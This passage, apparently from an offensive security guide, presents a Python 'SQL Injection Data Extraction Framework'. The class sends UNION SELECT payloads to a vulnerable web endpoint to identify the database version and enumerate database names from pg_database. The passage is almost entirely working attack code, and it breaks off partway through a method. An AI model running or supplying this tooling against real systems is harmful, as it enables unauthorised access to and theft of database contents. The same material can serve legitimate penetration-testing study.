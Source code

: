### Phase 2: Data Extraction and Enumeration

#### Step 2.1: Database Enumeration

```python
#!/usr/bin/env python3
"""
SQL Injection Data Extraction Framework
Systematically extracts database information
"""

import requests
import json
import time
from urllib.parse import quote

class SQLDataExtractor:
    def __init__(self, base_url, auth_token, vulnerable_endpoint, parameter):
        self.base_url = base_url
        self.endpoint = vulnerable_endpoint
        self.parameter = parameter
        self.session = requests.Session()
        self.session.headers.update({'Authorization': f'Bearer {auth_token}'})
        
    def extract_database_version(self):
        """Extract database version information"""
        print("\n[+] Extracting database version...")
        
        version_payloads = [
            "test' UNION SELECT version(),1,1,1--",
            "test' UNION SELECT @@version,1,1,1--",
            "test' UNION SELECT sqlite_version(),1,1,1--"
        ]
        
        for payload in version_payloads:
            try:
                response = self.session.get(
                    f"{self.base_url}{self.endpoint}",
                    params={self.parameter: payload}
                )
                
                if response.status_code == 200:
                    # Look for version information in response
                    response_text = response.text.lower()
                    if any(db in response_text for db in ['postgresql', 'mysql', 'sqlite']):
                        print(f"  ✓ Database version extracted: {payload}")
                        return response.json() if response.headers.get('content-type', '').startswith('application/json') else response.text
                        
            except Exception as e:
                continue
        
        return None
    
    def extract_database_names(self):
        """Extract database names"""
        print("\n[+] Extracting database names...")
        
        # PostgreSQL database enumeration
        db_payload = "test' UNION SELECT datname,1,1,1 FROM pg_database--"
        
        try:
            response = self.session.get(
                f"{self.base_url}{self.endpoint}",
```